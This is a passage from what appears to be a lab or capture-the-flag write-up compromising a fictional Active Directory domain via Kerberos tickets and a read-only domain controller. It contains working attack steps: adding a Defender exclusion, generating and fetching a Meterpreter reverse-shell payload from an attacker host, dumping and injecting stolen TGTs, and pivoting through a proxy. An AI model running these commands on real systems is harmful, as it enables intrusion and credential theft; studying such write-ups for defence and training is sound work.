[1685714] 1715897648.811353: Retrieving attacker@FACTORIES.MAMMAMIA.LOCAL -> krb5_ccache_conf_data/start_realm@X-CACHECONF: from FILE:attacker.ccache with result: -1765328243/Matching credential not found (filename: attacker.ccache)
[1685714] 1715897648.811354: Retrieving attacker@FACTORIES.MAMMAMIA.LOCAL -> HTTP/factws.factories.mammamia.local@FACTORIES.MAMMAMIA.LOCAL from FILE:attacker.ccache with result: 0/Success
[1685714] 1715897648.811356: Creating authenticator for attacker@FACTORIES.MAMMAMIA.LOCAL -> HTTP/factws.factories.mammamia.local@FACTORIES.MAMMAMIA.LOCAL, seqnum 732832184, subkey aes256-cts/6123, session key aes256-cts/801E
[1685714] 1715897649.047283: Read AP-REP, time 1715897647.811357, subkey aes256-cts/00A7, seqnum 1580936937
*Evil-WinRM* PS C:\Users\Amministratore.FACTORIES\Documents> whoami
factories.mammamia.local\attacker
*Evil-WinRM* PS C:\Users\Amministratore.FACTORIES\Documents> hostname
factws
*Evil-WinRM* PS C:\Users\Amministratore.FACTORIES\Documents> 
```

##### Linux + PowerShell

In my opinion, PowerShell seems to provide the best experience for interacting with WinRM using the `Enter-PSSession` cmdlet. To install PowerShell on Linux, you can use [this guide](https://learn.microsoft.com/en-us/powershell/scripting/install/install-ubuntu?view=powershell-7.4). We must also install the WinRM PowerShell module on Linux. Run `pwsh` as root and install the module using the following command:

```powershell
PS /home/user/MammaMia> Install-Module -Name PSWSMan -Scope AllUsers
PS /home/user/MammaMia> Install-WSMan
```

With the `KR5BCCNAME` environment variable set, we can now authenticate to the factory PC using the Silver Ticket and the `Enter-PSSession` cmdlet to get an interactive shell:

```powershell
PS /home/user/MammaMia> $SessionOpt = New-PSSessionOption -SkipCACheck:$true -SkipCNCheck:$true                         
PS /home/user/MammaMia> Enter-PSSession -UseSSL -SessionOption $SessionOpt -ComputerName factws.factories.mammamia.local
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
factories.mammamia.local\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
factws
```

> Note: `Enter-PSSession` cmdlet expects the SPN `http/factws` and not `HTTP/factws.factories.mammamia.local`.

##### Windows + PowerShell

If you are on Windows, you can use the built-in `Enter-PSSession` cmdlet to get an interactive shell. You can even use a Windows VM for this step, as long as your host with the VPN connection has IP forwarding enabled.

The first step is to forge the Silver Ticket and inject it into the current session using [Rubeus](https://github.com/GhostPack/Rubeus), as shown below:



You can then simply use `Enter-PSSession` (and disable TLS/SSL verification) to get an interactive shell:



> Remember to add the `factws.factories.mammamia.local` hostname to your `C:\Windows\System32\drivers\etc\hosts` file.

##### pywinrm

One last method I'd like to show is using the `pywinrm` package and a custom Python script to interact with the factory PC. This method provides a quick and easy way to interact with the factory PC using Python and offers more flexibility than the other methods. You will however only get a semi-interactive shell (`cmd.exe`), and not an interactive PowerShell session.

```python
from winrm.protocol import Protocol
import readline
import sys

readline.parse_and_bind('tab: complete')

session = Protocol(endpoint='https://factws.factories.mammamia.local:5986/wsman', transport='kerberos', realm="factories.mammamia.local", server_cert_validation='ignore')


shell_id = session.open_shell()

while True:
    command = input("Enter command: ")
    if command == "exit":
        break

    command_id = session.run_command(shell_id, command)
    std_out, std_err, status_code = session.get_command_output(shell_id, command_id)
    sys.stdout.buffer.write(std_out)
    sys.stderr.buffer.write(std_err)

session.cleanup_command(shell_id, command_id)
```

> Note that `pywinrm` attempts to find an SPN named `HTTP/factws` rather than `HTTP/factws.factories.mammamia.local`

### Post-exploitation

We should now have a shell on the factory PC using Kerberos authentication. When we crafted the Silver Ticket, both `Rubeus` and `ticketer.py` will by default include the local administrator's SID in the ticket. This means that we have administrative access to the factory PC.

When we first land on the target machine, we should do some initial enumeration to understand the environment. There are many different tools and scripts that can be used for this purpose. But first, it is important to know that our current logon session is a single Silver Ticket for the HTTP/WinRM service. This means that we cannot use this ticket to authenticate to other services or machines within the domain. We should therefore try to upgrade to a full domain context.

But first, we should establish some better command and control (C2). I will be using Metasploit's Meterpreter for this purpose. You can use any other C2 framework or tool you prefer.

Windows Defender is enabled on the machine, so we should use an AMSI bypass or add an exclusion for a specific script/path. I will be adding an exclusion for the `C:\Windows\Temp\attacker` directory.

```powershell
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
```

We can then generate a simple Meterpreter payload using `msfvenom`:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp -f exe LHOST=13.37.13.37 LPORT=4444 > msf.exe
```

We then spawn the listener in Metasploit:

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost lab
lhost => lab
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 13.37.13.37:4444
```

On the target machine, we can then download and run `msf.exe`. But as we're in a slightly weird logon session, it might be a good idea to create a new process in a "netonly" context to avoid any issues with the current logon session. Since I'll be using Rubeus going forward, I will upload it already and use it to create a new process in a "netonly" context:

```powershell
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
```

Back in Metasploit, we should see that we have a new session:

```bash
[*] Meterpreter session 1 opened (13.37.13.37:4444 -> 13.37.0.1:55714) at 2024-05-17 01:24:57 +0200

meterpreter > getuid
Server username: FACTORIES\attacker
```

#### Enumeration

Now that we have a Meterpreter session, we should upgrade to a full domain context. Since we're running with administrative privileges, we can use Rubeus to steal a Ticket Granting Ticket (TGT) from other users/accounts logged on to the machine. We can use the `triage` command to find TGTs like so:

```powershell
meterpreter > shell
Process 5104 created.
Channel 1 created.
Microsoft Windows [Version 10.0.20348.2402]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\Temp\attacker>.\rubeus.exe triage /service:krbtgt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2


Action: Triage Kerberos Tickets (All Users)

[*] Target service  : krbtgt
[*] Current LUID    : 0x4a6095

 --------------------------------------------------------------------------------------------------------------
 | LUID    | UserName                                | Service                         | EndTime              |
 --------------------------------------------------------------------------------------------------------------
 | 0x3e4   | factws$ @ FACTORIES.MAMMAMIA.LOCAL      | krbtgt/FACTORIES.MAMMAMIA.LOCAL | 5/17/2024 7:29:14 AM |
 | 0x64d33 | silvia.galli @ FACTORIES.MAMMAMIA.LOCAL | krbtgt/FACTORIES.MAMMAMIA.LOCAL | 5/17/2024 7:29:37 AM |
 | 0x3e7   | factws$ @ FACTORIES.MAMMAMIA.LOCAL      | krbtgt/FACTORIES.MAMMAMIA.LOCAL | 5/17/2024 7:28:56 AM |
 --------------------------------------------------------------------------------------------------------------
```

We can see that the machine account itself has a TGT, but we also notice `silvia.galli` has one. Let's get back to that in a bit.

For now, let's dump the TGT of the `factws$` machine account:

```powershell
C:\Windows\Temp\attacker> .\rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2


Action: Dump Kerberos Ticket Data (All Users)

[*] Target service  : krbtgt
[*] Target LUID     : 0x3e4
[*] Current LUID    : 0x4a6095

  UserName                 : factws$
  Domain                   : FACTORIES
  LogonId                  : 0x3e4
  UserSID                  : S-1-5-20
  AuthenticationPackage    : Negotiate
  LogonType                : Service
  LogonTime                : 5/16/2024 9:28:10 PM
  LogonServer              :
  LogonServerDNSDomain     :
  UserPrincipalName        : factws$@factories.mammamia.loca


    ServiceName              :  krbtgt/FACTORIES.MAMMAMIA.LOCAL
    ServiceRealm             :  FACTORIES.MAMMAMIA.LOCAL
    UserName                 :  FACTWS$ (NT_PRINCIPAL)
    UserRealm                :  FACTORIES.MAMMAMIA.LOCAL
    StartTime                :  5/16/2024 9:29:14 PM
    EndTime                  :  5/17/2024 7:29:14 AM
    RenewTill                :  5/23/2024 9:29:14 PM
    Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  cYtC3zyHQc/7Hi4uhAfxu+JnuZhVVITYybu4W905C2c=
    Base64EncodedTicket   :

      doIGAjCCBf6gAw[...]
```

We can now take the ticket and inject it into our own session using the `ptt` command:

```powershell
C:\Windows\Temp\attacker> .\rubeus.exe ptt /ticket:doIGAjCCBf6gAw[...]

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2


[*] Action: Import Ticket
[+] Ticket successfully imported!
C:\Windows\Temp\attacker> klist

Current LogonId is 0:0x4a6095

Cached Tickets: (1)

#0>     Client: FACTWS$ @ FACTORIES.MAMMAMIA.LOCAL
        Server: krbtgt/FACTORIES.MAMMAMIA.LOCAL @ FACTORIES.MAMMAMIA.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 5/16/2024 21:29:14 (local)
        End Time:   5/17/2024 7:29:14 (local)
        Renew Time: 5/23/2024 21:29:14 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

We can now perform domain enumeration. A simple test is to list the domain admins:

```powershell
C:\Windows\Temp\attacker>net group "Domain Admins" /domain
The request will be processed at a domain controller for domain factories.mammamia.local.

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Amministratore           
The command completed successfully.
```

At this point, you can also run BloodHound to collect a bunch of information about the domain. **Spoiler**: BloodHound will however not show you the full picture, as it will miss some important information.

Instead, I will use [SharpView](https://github.com/tevora-threat/SharpView) to manually enumerate the domain. SharpView is a C# implementation of PowerView, and it can be used to perform a variety of domain enumeration tasks.

First, let's show the domains:

```powershell
C:\Windows\Temp\attacker>.\SharpView.exe Get-Domain -Domain factories.mammamia.local
Forest                         : mammamia.local
DomainControllers              : {mgmtdc.factories.mammamia.local, FACTRODC.factories.mammamia.local}
Children                       : {}
DomainMode                     : Unknown
DomainModeLevel                : 7
Parent                         : mammamia.local
PdcRoleOwner                   : mgmtdc.factories.mammamia.local
RidRoleOwner                   : mgmtdc.factories.mammamia.local
InfrastructureRoleOwner        : mgmtdc.factories.mammamia.local
Name                           : factories.mammamia.local
```

We will notice that the domain `factories.mammamia.local` is a child domain of the `mammamia.local` forest.

Furthermore, we have two domain controllers: `mgmtdc.factories.mammamia.local` and `FACTRODC.factories.mammamia.local`. Already now, we can assume that `FACTRODC` is a read-only domain controller (RODC) based on the name - but let's confirm this. To do so, we will dump information about all the domain computers (the output has been modified and truncated for brevity):

```powershell
C:\Windows\Temp\attacker>.\SharpView.exe Get-DomainComputer -Domain factories.mammamia.local -DomainController mgmtdc.factories.mammamia.local
[Get-DomainSearcher] search base: LDAP://mgmtdc.factories.mammamia.local/DC=factories,DC=mammamia,DC=local
[Get-DomainComputer] Get-DomainComputer filter string: (&(samAccountType=805306369))
objectsid                      : {S-1-5-21-3201321165-582068547-786307507-1001}
useraccountcontrol             : SERVER_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION
name                           : mgmtdc
distinguishedname              : CN=mgmtdc,OU=Domain Controllers,DC=factories,DC=mammamia,DC=local
samaccountname                 : mgmtdc$
memberof                       : {CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=factories,DC=mammamia,DC=local, CN=Cert Publishers,CN=Users,DC=factories,DC=mammamia,DC=local}
dnshostname                    : mgmtdc.factories.mammamia.local

objectsid                      : {S-1-5-21-3201321165-582068547-786307507-1118}
useraccountcontrol             : WORKSTATION_TRUST_ACCOUNT, DONT_EXPIRE_PASSWORD
name                           : FACTWS
distinguishedname              : CN=FACTWS,OU=Valdoro,DC=factories,DC=mammamia,DC=local
samaccountname                 : FACTWS$
memberof                       : {CN=ValdoroComputers,OU=Valdoro,DC=factories,DC=mammamia,DC=local}
dnshostname                    : factws.factories.mammamia.local
msds-revealeddsas              : {CN=FACTRODC,OU=Domain Controllers,DC=factories,DC=mammamia,DC=local}

objectsid                      : {S-1-5-21-3201321165-582068547-786307507-1120}
useraccountcontrol             : WORKSTATION_TRUST_ACCOUNT, TRUSTED_TO_AUTH_FOR_DELEGATION, PARTIAL_SECRETS_ACCOUNT
name                           : FACTRODC
distinguishedname              : CN=FACTRODC,OU=Domain Controllers,DC=factories,DC=mammamia,DC=local
samaccountname                 : FACTRODC$
managedby                      : CN=ValdoroManagers,OU=Valdoro,DC=factories,DC=mammamia,DC=local
msds-krbtgtlink                : CN=krbtgt_48,CN=Users,DC=factories,DC=mammamia,DC=local
msds-revealedusers             : {CN=krbtgt_48,CN=Users,DC=factories,DC=mammamia,DC=local, CN=FACTRODC,OU=Domain Controllers,DC=factories,DC=mammamia,DC=local, CN=FACTWS,OU=Valdoro,DC=factories,DC=mammamia,DC=local, CN=silvia.galli,OU=Valdoro,DC=factories,DC=mammamia,DC=local, [...]}
msds-revealondemandgroup       : {CN=ValdoroComputers,OU=Valdoro,DC=factories,DC=mammamia,DC=local, CN=ValdoroUsers,OU=Valdoro,DC=factories,DC=mammamia,DC=local}
```

Now, for the `FACTRODC` computer, we can see that it has the `msds-krbtgtlink` attribute set. We can also see the `PARTIAL_SECRETS_ACCOUNT` flag set in the `useraccountcontrol` attribute. This indicates that `FACTRODC` is a read-only domain controller (RODC).

For now, let's continue the enumeration. We can see the `managedby` attribute is set to `CN=ValdoroManagers,OU=Valdoro,DC=factories,DC=mammamia,DC=local`. As explained in the recommended reading material, the `managedby` attribute is special for RODCs, and it is used to specify the group/user that can manage the RODC, i.e. local administrators on the RODC.

We can dump the members of this group:

```powershell
C:\Windows\Temp\attacker>net group "ValdoroManagers" /domain
The request will be processed at a domain controller for domain factories.mammamia.local.

Group name     ValdoroManagers
Comment        

Members

-------------------------------------------------------------------------------
silvia.galli             
The command completed successfully.
```

Here, we see that `silvia.galli` is a member of the `ValdoroManagers` group. This means that `silvia.galli` is a local administrator on the `FACTRODC` computer.

Now, a RODC is allowed to "retrieve" the credentials for accounts listed in the `msDS-RevealOnDemandGroup`, as long as these accounts are not listed in the `msDS-NeverRevealGroup` attribute. In this case, the `msDS-NeverRevealGroup` attribute is not set, so the `FACTRODC` computer should be able to retrieve the credentials for any account listed in the `msDS-RevealOnDemandGroup` attribute.

In this case, the `msDS-RevealOnDemandGroup` attribute is set to `ValdoroComputers` and `ValdoroUsers`. We already know that `FACTWS` is a member of the `ValdoroComputers` group. Let's list all the users in the domain (output has been modified and truncated for brevity):

```powershell
C:\Windows\Temp\attacker>.\SharpView.exe Get-DomainUser -Domain factories.mammamia.local -DomainController mgmtdc.factories.mammamia.local
.\SharpView.exe Get-DomainUser -Domain factories.mammamia.local -DomainController mgmtdc.factories.mammamia.local
[Get-DomainSearcher] search base: LDAP://mgmtdc.factories.mammamia.local/DC=factories,DC=mammamia,DC=local
[Get-DomainUser] filter string: (&(samAccountType=805306368))
objectsid                      : {S-1-5-21-3201321165-582068547-786307507-500}
useraccountcontrol             : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
name                           : Amministratore
distinguishedname              : CN=Amministratore,CN=Users,DC=factories,DC=mammamia,DC=local
samaccountname                 : Amministratore
memberof                       : {CN=Domain Admins,CN=Users,DC=factories,DC=mammamia,DC=local, CN=Administrators,CN=Builtin,DC=factories,DC=mammamia,DC=local}
description                    : Built-in account for administering the computer/domain

objectsid                      : {S-1-5-21-3201321165-582068547-786307507-502}
useraccountcontrol             : ACCOUNTDISABLE, NORMAL_ACCOUNT
name                           : krbtgt
distinguishedname              : CN=krbtgt,CN=Users,DC=factories,DC=mammamia,DC=local
samaccountname                 : krbtgt

objectsid                      : {S-1-5-21-3201321165-582068547-786307507-1116}
useraccountcontrol             : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
name                           : silvia.galli
distinguishedname              : CN=silvia.galli,OU=Valdoro,DC=factories,DC=mammamia,DC=local
samaccountname                 : silvia.galli
memberof                       : {CN=ValdoroManagers,OU=Valdoro,DC=factories,DC=mammamia,DC=local, CN=ValdoroUsers,OU=Valdoro,DC=factories,DC=mammamia,DC=local}
msds-revealeddsas              : {CN=FACTRODC,OU=Domain Controllers,DC=factories,DC=mammamia,DC=local, CN=FACTRODC,OU=Domain Controllers,DC=factories,DC=mammamia,DC=local, CN=FACTRODC,OU=Domain Controllers,DC=factories,DC=mammamia,DC=local, CN=FACTRODC,OU=Domain Controllers,DC=factories,DC=mammamia,DC=local, CN=FACTRODC,OU=Domain Controllers,DC=factories,DC=mammamia,DC=local}

objectsid                      : {S-1-5-21-3201321165-582068547-786307507-1117}
useraccountcontrol             : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
name                           : TimeSheetSvc
distinguishedname              : CN=TimeSheetSvc,OU=Valdoro,DC=factories,DC=mammamia,DC=local
samaccountname                 : TimeSheetSvc
memberof                       : {CN=ValdoroUsers,OU=Valdoro,DC=factories,DC=mammamia,DC=local}
ServicePrincipalName           : HTTP/timesheet.factories.mammamia.local
msds-allowedtodelegateto       : {CIFS/mgmtdc, CIFS/mgmtdc.factories.mammamia.local}
objectcategory                 : CN=Person,CN=Schema,CN=Configuration,DC=mammamia,DC=local

objectsid                      : {S-1-5-21-3201321165-582068547-786307507-1121}
useraccountcontrol             : ACCOUNTDISABLE, NORMAL_ACCOUNT
name                           : krbtgt_48
distinguishedname              : CN=krbtgt_48,CN=Users,DC=factories,DC=mammamia,DC=local
samaccountname                 : krbtgt_48
msds-krbtgtlinkbl              : CN=FACTRODC,OU=Domain Controllers,DC=factories,DC=mammamia,DC=local
msds-revealeddsas              : {CN=FACTRODC,OU=Domain Controllers,DC=factories,DC=mammamia,DC=local, CN=FACTRODC,OU=Domain Controllers,DC=factories,DC=mammamia,DC=local, CN=FACTRODC,OU=Domain Controllers,DC=factories,DC=mammamia,DC=local, CN=FACTRODC,OU=Domain Controllers,DC=factories,DC=mammamia,DC=local, CN=FACTRODC,OU=Domain Controllers,DC=factories,DC=mammamia,DC=local}
description                    : Key Distribution Center service account for read-only domain controller
msds-secondarykrbtgtnumber     : 48
```

Of interest here, we see the `TimeSheetSvc` user account. This account has the `msds-allowedtodelegateto` attribute set to `CIFS/mgmtdc` and `CIFS/mgmtdc.factories.mammamia.local`, and the `useraccountcontrol` attribute set to `TRUSTED_TO_AUTH_FOR_DELEGATION`. This means that the `TimeSheetSvc` account can perform a Constrained Delegation Attack to the `mgmtdc` and `mgmtdc.factories.mammamia.local` services, effectively allowing it to become domain administrator if abused.

Furthermore, the `TimeSheetSvc` account is a member of the `ValdoroUsers` group, and the `FACTRODC` computer can therefore "retrieve" the credentials for this account. We will however notice that the `msds-revealeddsas` attribute for `TimeSheetSvc` is **not** set. This means that the credentials are not cached on the `FACTRODC` computer, and we will have to retrieve them ourselves.

We also see the `krbtgt_48` account with `msds-krbtgtlinkbl` set to `CN=FACTRODC,OU=Domain Controllers,DC=factories,DC=mammamia,DC=local`. This account is the KDC service account for the read-only domain controller.

Now, if you remember the `PARTIAL_SECRETS_ACCOUNT` flag set on the `FACTRODC` computer, this means that the `FACTRODC` can create special "partial" Kerberos tickets for users using the credentials of `krbtgt_48` account, similar to how a Golden Ticket attack works using the regular `krbtgt` account.

#### Attack Path

We have identified a few interesting accounts and attributes that we can abuse to escalate our privileges in the domain. We can summarize the attack path as follows:

1. Silvia Galli has a logon session on the `FACTWS` computer. Remote Credential Guard is enabled, so we need to find a way to bypass this.
2. Silvia Galli is a member of the `ValdoroManagers` group, which can manage (local administrator) the `FACTRODC` computer.
3. The `FACTRODC` computer is a read-only domain controller (RODC) and has the `msDS-RevealOnDemandGroup` attribute set to `ValdoroComputers` and `ValdoroUsers`, and can thus compromise the credentials of these accounts.
4. The `TimeSheetSvc` user account is a member of the `ValdoroUsers` group and has the `msds-allowedtodelegateto` attribute set to `CIFS/mgmtdc` and `CIFS/mgmtdc.factories.mammamia.local`, and can therefore perform a Constrained Delegation Attack to the `mgmtdc` and `mgmtdc.factories.mammamia.local` services.
5. The `factories.mammamia.local` is a child domain of the `mammamia.local` forest, and compromising `factories.mammamia.local` can lead to compromising the entire forest (more on this later).

### Bypassing Remote Credential Guard

Remote Credential Guard is a feature in Windows that attempts to protect the user's credentials from being stolen by a compromised remote host. A simplified explanation: The user's credentials are not sent to the remote host, but instead, all authentication requests are sent back to the user's machine. This means that the user's "primary" credentials are never exposed to the remote host.

However, we did see that Silvia Galli has a logon session on the `FACTWS` computer, and we noticed a TGT for this account in the `triage` output. Let's try to dump and steal this TGT using Rubeus:

```powershell
C:\Windows\Temp\attacker>.\rubeus.exe triage /service:krbtgt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 


Action: Triage Kerberos Tickets (All Users)

[*] Target service  : krbtgt
[*] Current LUID    : 0x51854e

 --------------------------------------------------------------------------------------------------------------- 
 | LUID     | UserName                                | Service                         | EndTime              |
 --------------------------------------------------------------------------------------------------------------- 
 | 0x3e4    | factws$ @ FACTORIES.MAMMAMIA.LOCAL      | krbtgt/FACTORIES.MAMMAMIA.LOCAL | 5/18/2024 7:53:08 AM |
 | 0x6087c  | silvia.galli @ FACTORIES.MAMMAMIA.LOCAL | krbtgt/FACTORIES.MAMMAMIA.LOCAL | 5/18/2024 7:53:37 AM |
 | 0x3e7    | factws$ @ FACTORIES.MAMMAMIA.LOCAL      | krbtgt/FACTORIES.MAMMAMIA.LOCAL | 5/18/2024 7:53:08 AM |
 --------------------------------------------------------------------------------------------------------------- 

C:\Windows\Temp\attacker>.\rubeus.exe dump /luid:0x6087c /service:krbtgt /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 


Action: Dump Kerberos Ticket Data (All Users)

[*] Target service  : krbtgt
[*] Target LUID     : 0x6087c
[*] Current LUID    : 0x51854e

  UserName                 : silvia.galli
  Domain                   : FACTORIES
  LogonId                  : 0x6087c
  UserSID                  : S-1-5-21-3201321165-582068547-786307507-1116
  AuthenticationPackage    : Kerberos
  LogonType                : RemoteInteractive
  LogonTime                : 5/17/2024 9:54:06 PM
  LogonServer              : factrodc
  LogonServerDNSDomain     : FACTORIES.MAMMAMIA.LOCAL
  UserPrincipalName        : silvia.galli@factories.mammamia.local


    ServiceName              :  krbtgt/FACTORIES.MAMMAMIA.LOCAL
    ServiceRealm             :  FACTORIES.MAMMAMIA.LOCAL
    UserName                 :  silvia.galli (NT_PRINCIPAL)
    UserRealm                :  FACTORIES.MAMMAMIA.LOCAL
    StartTime                :  5/17/2024 9:53:37 PM
    EndTime                  :  5/18/2024 7:53:37 AM
    RenewTill                :  5/24/2024 9:53:37 PM
    Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  ChEpLJxYbJ07DhBOXWVazAEAAAAAAAAAAAAAAAAAAADXLm7ob/7wv4pyBEVJFJYSkC/YMrI1FyUs6KM+PuuqSinVwtW4ejHTG9O1gg==
    RODC Number              :  48
    Base64EncodedTicket   :

      doIGiTCCBoWg[...]

```

Well, this doesn't look like Remote Credential Guard protected Silvia's TGT. But, if we try to use it, we will get a weird error:

```powershell
C:\Windows\Temp\attacker>.\rubeus.exe asktgs /service:cifs/factrodc.factories.mammamia.local /ticket:doIGiTCCBoWgAwIBBaEDAgEWooIF[...]

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 

[*] Action: Ask TGS

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/factrodc.factories.mammamia.local'

[!] Unhandled Rubeus exception:

System.ComponentModel.Win32Exception (0x80004005): Unknown error (0xc000000d)
   at Rubeus.Crypto.KerberosEncrypt(KERB_ETYPE eType, Int32 keyUsage, Byte[] key, Byte[] data)
   at Rubeus.AP_REQ.Encode()
   at Rubeus.PA_DATA.Encode()
   at Rubeus.TGS_REQ.Encode()
   at Rubeus.TGS_REQ.NewTGSReq(String userName, String domain, String sname, Ticket providedTicket, Byte[] clientKey, KERB_ETYPE paEType, KERB_ETYPE requestEType, Boolean renew, String s4uUser, Boolean enterprise, Boolean roast, Boolean opsec, Boolean unconstrained, KRB_CRED tgs, String targetDomain, Boolean u2u, Boolean keyList)
   at Rubeus.Ask.TGS(String userName, String domain, Ticket providedTicket, Byte[] clientKey, KERB_ETYPE paEType, String service, KERB_ETYPE requestEType, String outfile, Boolean ptt, String domainController, Boolean display, Boolean enterprise, Boolean roast, Boolean opsec, KRB_CRED tgs, String targetDomain, String servicekey, String asrepkey, Boolean u2u, String targetUser, Boolean printargs, String proxyUrl, Boolean keyList)
   at Rubeus.Ask.TGS(KRB_CRED kirbi, String service, KERB_ETYPE requestEType, String outfile, Boolean ptt, String domainController, Boolean display, Boolean enterprise, Boolean roast, Boolean opsec, KRB_CRED tgs, String targetDomain, String servicekey, String asrepkey, Boolean u2u, String targetUser, Boolean printargs, String proxyUrl, Boolean keyList)
   at Rubeus.Commands.Asktgs.Execute(Dictionary`2 arguments)
   at Rubeus.Domain.CommandCollection.ExecuteCommand(String commandName, Dictionary`2 arguments)
   at Rubeus.Program.MainExecute(String commandName, Dictionary`2 parsedArgs)

C:\Windows\Temp\attacker>
```

Googling the error codes `0x80004005` and `0xc000000d` will not reveal any relevant results. Let's instead try to use Impacket to parse the ticket:

```bash
user@zero:~/MammaMia$ echo doIGiTCCBoWgAwIBBaEDA[...] | base64 -d > ticket.kirbi
user@zero:~/MammaMia$ ticketConverter.py ticket.kirbi ticket.ccache
Impacket v0.11.0 - Copyright 2023 Fortra

[*] converting kirbi to ccache...
[+] done
user@zero:~/MammaMia$ export KRB5CCNAME=ticket.ccache 
user@zero:~/MammaMia$ klist
Ticket cache: FILE:ticket.ccache
Default principal: silvia.galli@FACTORIES.MAMMAMIA.LOCAL

Valid starting       Expires              Service principal
05/17/2024 23:53:37  05/18/2024 09:53:37  krbtgt/FACTORIES.MAMMAMIA.LOCAL@FACTORIES.MAMMAMIA.LOCAL
 renew until 05/24/2024 23:53:37
user@zero:~/MammaMia$
```

This seems to work fine. But let's actually try to use the ticket to authenticate to the `FACTRODC` computer. I'll be setting up a socks proxy using the Meterpreter session, as shown below:

```bash
msf6 exploit(multi/handler) > route add 10.0.0.0 255.0.0.0 1 # session ID 1
msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set VERSION 4a
msf6 auxiliary(server/socks_proxy) > run
```

We can now use `getST.py` to try to request a service ticket using the TGT:

```bash
user@zero:~/MammaMia$ proxychains getST.py 'factories.mammamia.local/silvia.galli' -k -no-pass -spn cifs/mgmtdc.factories.mammamia.local -dc-ip 10.50.0.10 -debug
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.11.0 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /home/user/.local/lib/python3.10/site-packages/impacket
[+] Using Kerberos Cache: ticket.ccache
[+] Returning cached credential for KRBTGT/FACTORIES.MAMMAMIA.LOCAL@FACTORIES.MAMMAMIA.LOCAL
[+] Using TGT from cache
Traceback (most recent call last):
  File "/home/user/.local/bin/getST.py", line 737, in <module>
    executer.run()
  File "/home/user/.local/bin/getST.py", line 623, in run
    domain, _, TGT, _ = CCache.parseFile(self.__domain)
  File "/home/user/.local/lib/python3.10/site-packages/impacket/krb5/ccache.py", line 630, in parseFile
    TGT = creds.toTGT()
  File "/home/user/.local/lib/python3.10/site-packages/impacket/krb5/ccache.py", line 320, in toTGT
    tgt['sessionKey'] = crypto.Key(cipher.enctype, self['key']['keyvalue'])
  File "/home/user/.local/lib/python3.10/site-packages/impacket/krb5/crypto.py", line 657, in __init__
    raise ValueError('Wrong key length')
ValueError: Wrong key length
Wrong key length
```

Impacket's module is also failing to use the ticket with the error `Wrong key length`. We can perform more debugging by printing the actual and expected key lengths in the `crypto.py` file:

```python
class Key(object):
    def __init__(self, enctype, contents):
        e = _get_enctype_profile(enctype)
